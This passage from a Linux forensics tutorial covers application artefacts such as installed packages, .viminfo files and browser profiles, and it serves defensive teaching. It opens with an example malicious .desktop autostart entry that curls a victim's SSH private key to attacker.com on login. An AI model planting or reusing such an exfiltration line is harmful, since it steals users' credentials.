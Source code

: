 **Real-World Security Example:**
An attacker adds `keygrabber.desktop` with:
```ini
Exec=/bin/bash -c "curl -X POST -d '/home/janice/.ssh/id_rsa' http://attacker.com/api"
```
On login, the victim’s SSH private key is exfiltrated.

---

## Application Artefacts: What They Are & Why They Matter in Forensics

![Application Artefacts](/artefacts.png)

**Definition:** All data and files generated by apps as they’re used, such as configuration files, logs, caches, and user history.

**Importance in Forensics:** By reviewing these artefacts, investigators can see how apps were used, what actions users took, and spot abnormal or malicious behavior.

---

### Step 1: Spotting Installed Applications

To begin, find out which apps are installed using:
```console
sudo dpkg -l
```
This lists all packages installed via the package manager.

---

### Step 2: Collecting Artefacts From Common Applications

#### Vim Artefacts

The `.viminfo` file holds info like edit history, recent search patterns, and more.

**Forensics Use:** Can reveal what scripts or files were edited—this could expose tampering.

**Find viminfo files:**
```console
find /home/ -type f -name ".viminfo" 2>/dev/null
```
Viewing Janice’s `.viminfo` could show recent commands and search terms, giving hints about her actions.

#### Web Browsers (e.g., Firefox, Chrome)

**Browser Artefacts:** Browsing history, downloads, cookies, and saved data.

**Location:**
- Firefox: `~/.mozilla/firefox/`
- Chrome: `~/.config/google-chrome/`

**Forensics Use:** Reveals what sites were accessed, what files were downloaded, and if malicious URLs were visited.
